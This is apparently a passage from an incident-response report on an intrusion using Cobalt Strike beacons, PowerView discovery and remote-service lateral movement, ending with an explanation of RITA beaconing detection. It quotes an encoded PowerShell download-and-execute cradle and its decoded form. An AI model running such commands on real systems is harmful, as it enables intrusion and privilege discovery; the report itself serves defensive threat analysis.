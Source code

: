 The threat actors also executed PowerView Invoke-FindLocalAdminAccess module on one of the compromised servers:

powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUA bg B0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AbABvAGMAYQBsAGgAbwBzAHQAOgAzADcAOQAyADMALwAnACkAOwAgAEkA bg B2AG8AawBlAC0ARgBpAG4AZABMAG8AYwBhAGwAQQBkAG0AaQBuAEEAYwBjAGUAcwBzACAALQB0AGgAcgBlAGEAZABzACAANQAwAA==

Decoded command:

IEX (New- Object Net.Webclient).DownloadString( 'http://localhost:37923/' ); Invoke-FindLocalAdminAccess -threads 50

We also saw exhaustive port scanners of certain servers before additional discovery.

File and Directory Discovery

The following discovery commands were run on all hosts including the Domain Controllers:



# Lateral Movement

The first Lateral Movement to the Domain Controller was performed using remote services creation (Executing spoolsv.exe via remote services):



The spoolsv.exe binary is a Cobalt Strike artifact used for Lateral Movement and C2 which decodes to the configuration below:

Additional Lateral Movement technique was observed, where the threat actors used Cobalt Strike’s jump psexec_psh :

Using Cyberchef (recipe), we decoded the obfuscated powershell loader, which is using the default named pipe \.\pipe\status_f5 :

Threat actors also pivoted to a domain controller by using the same Cobalt Strike artifacts, spoolsv.exe via remote service creation:



Right after initial Lateral Movement, a second Cobalt Strike Beacon kaslose64.dll was executed on a critical server.



# Command and Control

Rita stands for Real Intelligence Threat Analytics (RITA), developed by Active Countermeasures. Rita is a framework for identifying command and control communication, also known as beaconing. As the name implies, beaconing refers to delivering regular messages from an infected host to an attacker-controlled host. Beacon is the malware agent installed on the victim’s device and is responsible for communicating with the C2 server. Rita is consuming zeek/bro logs and detecting suspected beaconing activity using network traffic calculations.

It then assigns a value ranging from 0.1 to 1.0, with the greater the score indicating that the network activity is suspicious. Rita is utilized as a hunting tool rather than a real-time detection tool, though simple scripting allows Rita to be used for live traffic analysis. However, analysts should add additional context and filter the results accordingly. Rita can only identify suspicious communication and should not be automated as a preventative control. For more info on how RITA works check out the mathamatics here.
